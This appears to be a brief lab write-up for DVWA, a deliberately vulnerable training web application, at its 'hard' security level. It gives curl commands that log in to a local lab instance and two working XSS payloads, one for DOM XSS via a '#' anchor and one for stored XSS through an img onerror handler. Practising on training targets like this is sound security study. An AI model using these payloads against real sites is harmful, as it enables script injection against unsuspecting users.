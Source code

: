 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: hard

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=high" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### XSS (DOM)

Trick with anchor ('#') also works here:

    English#<script>alert(1);</script>

### XSS (Stored)

Payload for `txtName` field: `<img src=x onError=alert(3)>`
